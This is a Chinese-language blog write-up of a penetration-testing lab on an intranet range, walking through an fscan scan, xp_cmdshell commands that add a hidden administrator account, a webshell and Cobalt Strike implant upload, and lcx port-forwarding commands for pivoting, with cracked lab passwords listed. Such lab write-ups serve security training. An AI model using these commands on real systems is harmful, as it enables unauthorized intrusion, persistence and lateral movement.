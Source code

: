```yaml
---
title: lcx端口转发
date: 2021-09-03 16:39:51
tags:
---
```


## 内网渗透:端口转发

靶场地址

http://192.168.179.75/1.asp



通过fscan扫描得到mssql账号秘密，Navicat链接登录数据库，whoami查看，当前权限为system，创建账号gd13$，密码admin@123，添加到administrator组，通过该账号远程登录，在www目录下写入一句话木马asp，打开kali蚁剑链接



![image-20210831191818764](lcx/image-20210831191818764.png)

fscan 扫描目标ip  

`/home/kali/cs4.2/tools/fscan_amd64 -h 192.168.179.75`

![image-20210831192054560](lcx/image-20210831192054560.png)

![image-20210831194028029](lcx/image-20210831194028029.png)

`exec('xp_cmdshell "whoami"')`

添加用户 gd13$  admin@123 

`exec('xp_cmdshell "net user gd13$ admin@123 /add"')`

![image-20210831202425448](lcx/image-20210831202425448.png)

![image-20210831202530309](\lcx/image-20210831202530309.png)

`exec('xp_cmdshell "net localgroup administrators gd13$ /add"')`

`exec('xp_cmdshell "net localgroup administrators"')`

![image-20210831202648860](\lcx/image-20210831202648860.png)

![image-20210831203004613](\lcx/image-20210831203004613.png)

查看user表 里面有管理员账户名密码，虽然解密成功但是，禁止远程登录

![image-20210831203016345](\lcx/image-20210831203016345.png)

admin 	qwer1234!@#$

![image-20210831204542590](lcx/image-20210831204542590.png)

bao  bao123

![image-20210831203215306](\lcx/image-20210831203215306.png)

![image-20210831205122155](\lcx/image-20210831205122155.png)



kali中打开cs 链接vps服务器

![image-20210903204618071](\lcx/image-20210903204618071.png)

![image-20210903204838431](lcx/image-20210903204838431.png)

生成Windows版的远控程序

![image-20210903205111769](lcx/image-20210903205111769.png)

![image-20210903205153499](lcx/image-20210903205153499.png)

使用蚁剑上传远控程序

![image-20210903205420939](lcx/image-20210903205420939.png)

双击远控程序，在cs中查看

![image-20210903210054589](lcx/image-20210903210054589.png)

![image-20210903210314507](\lcx/image-20210903210314507.png)

![image-20210903210456317](\lcx/image-20210903210456317.png)

`shell C:\www\lcx.exe -tran 3333 192.168.1.107 8080`

![image-20210903211135544](lcx/image-20210903211135544.png)

![image-20210903211948437](\lcx/image-20210903211948437.png)



![image-20210903212024618](\lcx/image-20210903212024618.png)

转发成功，访问75的3333端口，107的8080端口转发成功



![image-20210903212112116](\lcx/image-20210903212112116.png)

![image-20210903212704462](\lcx/image-20210903212704462.png)

![image-20210903212729352](\lcx/image-20210903212729352.png)

use18

`shell C:\www\lcx.exe -tran 4444 192.168.22.187 4444`

![image-20210903222630836](lcx/image-20210903222630836.png)

![image-20210903223233650](lcx/image-20210903223233650.png)

![image-20210903225319610](lcx/image-20210903225319610.png)

![image-20210903225342838](lcx/image-20210903225342838.png)

设置用户名和密码Tomcat

![image-20210903230024732](lcx/image-20210903230024732.png)

![image-20210903230155364](lcx/image-20210903230155364.png)

